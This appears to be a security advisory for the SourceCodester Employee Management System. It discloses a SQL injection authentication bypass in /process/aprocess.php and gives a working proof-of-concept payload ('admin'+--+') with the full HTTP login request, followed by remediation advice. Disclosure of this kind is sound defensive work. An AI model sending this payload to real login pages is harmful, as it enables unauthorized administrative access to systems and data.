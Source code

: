 # SOURCECODESTER EMPLOYEE MANAGEMENT SYSTEM - SQL Injection Authentication Bypass

### Title: SQL Injection Authentication Bypass
### Affected Component: /process/aprocess.php
### CWE-287: Improper Authentication 
### CVSS Base Score: 7.5 (Self-rated with the assistance of an online CVSS calculator)

### Impact:
SQL injection authentication bypass poses a significant threat by enabling unauthorized access to the system, allowing attackers to exploit vulnerabilities in authentication mechanisms. This can lead to severe consequences including unauthorized entry into sensitive areas, exposure of confidential data, manipulation of system integrity, reputational damage, and potential regulatory compliance violations. The exploit's ability to circumvent authentication safeguards undermines the confidentiality, integrity, and availability of the system, emphasizing the critical need for robust security measures and prompt mitigation of SQL injection vulnerabilities to safeguard against these multifaceted risks.

### Proof of Concept (POC):
To demonstrate the SQL injection authentication bypass vulnerability, begin by accessing the login page of the application. In the username field, input the following payload: `"admin'+--+". This payload aims to manipulate the authentication process by injecting SQL syntax to bypass the login mechanism. Upon submitting the login form with this payload, observe that the application grants access as if logged in as an administrator without requiring a valid password. This indicates successful exploitation of the SQL injection vulnerability, allowing unauthorized access to sensitive areas of the application.

#### HTTP Request:
```http
POST /process/aprocess.php HTTP/1.1
Host: [REDACTED]
Content-Length: 48
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
Origin: [REDACTED]
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
sec-ch-ua-platform: "macOS"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: empty
Referer: [REDACTED]
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

mailuid=admin'+--+&pwd=asdasd&login-submit=Login
```
### Remediation:
To address the SQL injection authentication bypass vulnerability, it is crucial to implement robust input validation mechanisms to sanitize user inputs effectively, particularly in critical areas such as authentication processes. Utilizing parameterized queries or prepared statements can help ensure that user-supplied data is treated as data rather than executable code, significantly reducing the risk of SQL injection attacks. Additionally, adopting the principle of least privilege by restricting database permissions and deploying a web application firewall to intercept and filter malicious traffic can provide further protection against such vulnerabilities. Regular security assessments, comprehensive training programs, and prompt patch management are also essential components of a holistic remediation strategy to mitigate the risk of SQL injection vulnerabilities and bolster the overall security posture of web applications.
